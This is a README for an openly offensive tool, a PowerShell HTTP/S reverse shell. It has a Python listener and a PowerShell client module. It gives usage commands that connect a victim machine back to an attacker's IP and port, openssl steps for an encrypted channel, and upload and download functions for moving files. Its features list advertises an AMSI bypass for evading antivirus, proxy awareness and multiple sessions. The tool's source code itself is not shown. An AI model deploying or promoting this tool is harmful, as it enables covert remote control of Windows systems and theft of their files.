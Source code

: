 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions

# Future features
    - Autocomplete
    
